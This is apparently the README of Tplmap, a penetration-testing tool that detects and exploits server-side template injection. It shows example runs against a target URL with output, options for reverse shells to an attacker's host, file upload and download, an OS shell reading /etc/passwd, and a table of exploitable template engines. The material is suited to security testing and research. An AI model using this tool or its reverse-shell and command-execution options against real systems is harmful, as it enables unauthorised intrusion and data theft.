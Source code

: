 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI).

This can be used by developers, penetration testers, and security researchers to detect and exploit vulnerabilities related to the template injection attacks.

The technique can be used to compromise web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

The modular approach allows any contributor to extend the support to other templating engines or introduce new exploitation techniques. The majority of the techniques currently implemented came from the amazing research done by [James Kett, PortSwigger][1].

Tplmap is able to detect and exploit rendered and blind SSTI and exploit injections in text and code contexts.

> The application is currently under heavy development and misses some functionalities.

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*' 
[+] Tplmap 0.1d
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'inj'
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Freemarker plugin is testing blind injection
[+] Velocity plugin is testing rendering with tag '#set($c=*)\n${c}\n'
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  Engine: Jade
  Injection: \n= *\n
  Context: text
  OS: darwin
  Technique: render
  Capabilities:
  
   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Rerun tplmap providing one of the following options:

   --os-shell or --os-cmd to execute shell commands via the injection
   --upload LOCAL REMOTE to upload files to the server
   --download REMOTE LOCAL to download remote files
   --bind-shell PORT to bind a shell on a port and connect to it
   --reverse-shell HOST PORT to run a shell back to the attacker's HOST PORT
        
$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.
linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine    | Detection          | Command execution | Code evaluation | File read | File write |
|--------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako               |  render+blind      | yes               | python          | yes       | yes        |
| Jinja2             |  render+blind      | yes               | python          | yes       | yes        |
| Jade               |  render+blind      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  render+blind      | yes               | PHP             | yes       | yes        |
| Freemarker         |  render+blind      | yes               | no              | yes       | yes        |
| Velocity           |  render            | no                | no              | no        | no         |
| Twig               |  render            | no                | no              | no        | no         |
| Smarty (secured)   |  render            | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
